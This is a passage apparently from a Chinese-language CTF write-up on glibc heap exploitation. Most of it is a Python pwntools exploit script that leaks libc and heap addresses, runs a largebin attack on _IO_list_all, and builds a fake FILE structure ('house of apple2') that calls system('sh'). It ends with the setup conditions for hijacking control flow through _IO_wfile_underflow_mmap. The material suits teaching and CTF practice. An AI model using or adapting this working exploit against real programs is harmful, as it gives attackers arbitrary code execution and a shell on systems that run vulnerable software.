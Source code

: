 ```python
add(2, 0x520)
add(3, 0x500)
delete(2)
add(4, 0x530)
show(2)

_libc=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
# print(hex(libc))
libc_base=_libc-0x21b110
print(hex(libc_base))
_IO_list_all=libc_base+0x21b680

edit(2,b'a'*0x10)
show(2)
link.recvuntil(b'a'*0x10)
heap=u64(link.recv(6).ljust(8,b'\x00'))
print(hex(heap))
chunk0_addr=heap-0xa30
print(hex(chunk0_addr))

delete(0)
payload=p64(_libc)+p64(_libc)+p64(heap)+p64(_IO_list_all-0x20)
edit(2,payload)
add(5, 0x550)

------上面是largebin attack，下面是house of apple2------

edit(9, b'a'*0x4f0+b'  sh'.ljust(8,b'\x00'))

fake_file = flat({
	0x10: p64(0), #write_base=0
	0x18: p64(1), #write_ptr>write_base
	0x28: p64(0), #buf_base=0 
	0x58: p64(libc_base+libc.symbols['system']), #_wide_vtable->doallocate=system
	0x90: p64(chunk0_addr), #_wide_data=chunk0_addr
	0xc8: p64(libc_base + libc.symbols['_IO_wfile_jumps']), #vtable
	0xd0: p64(chunk0_addr) #_wide_vtable
}, filler=b"\x00")
edit(0,fake_file)

exit()

link.interactive()
```

## 利用_IO_wfile_underflow_mmap 
对 fp 的设置如下：

+ _flags 设置为 ~4，如果不需要控制 rdi，设置为 0 即可；如果需要获得 shell，可设置为 `  sh;`，注意前面有个空格
+ vtable 设置为_IO_wfile_jumps_mmap 地址（加减偏移），使其能成功调用_IO_wfile_underflow_mmap 即可
+ _IO_read_ptr < _IO_read_end，即满足 *(fp + 8) < *(fp + 0x10)
+ _wide_data 设置为可控堆地址 A，即满足 *(fp + 0xa0) = A
+ _wide_data->_IO_read_ptr >= _wide_data->_IO_read_end，即满足 *A >= *(A + 8)
+ _wide_data->_IO_buf_base 设置为 0，即满足 *(A + 0x30) = 0
+ _wide_data->_IO_save_base 设置为 0 或者合法的可被 free 的地址，即满足 *(A + 0x40) = 0
+ _wide_data->_wide_vtable 设置为可控堆地址 B，即满足 *(A + 0xe0) = B
+ _wide_data->_wide_vtable->doallocate 设置为地址 C 用于劫持 RIP，即满足 *(B + 0x68) = C
